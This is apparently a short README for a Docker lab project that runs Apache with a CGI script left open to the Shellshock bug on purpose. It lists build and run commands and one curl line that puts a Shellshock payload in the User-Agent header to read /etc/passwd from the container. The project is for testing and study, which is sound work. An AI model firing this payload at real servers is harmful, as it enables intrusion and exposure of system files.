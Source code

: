 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerable.
```
docker build -t shellshock docker-shellshockable
docker run -d --name shellshock 6c514587a5ff
export WEBSRV=`docker inspect --format "{{.NetworkSettings.IPAddress}}" shellshock`
curl -A "() { foo;};echo;/bin/cat /etc/passwd" "http://172.17.0.2/cgi-bin/shockme.cgi"
```
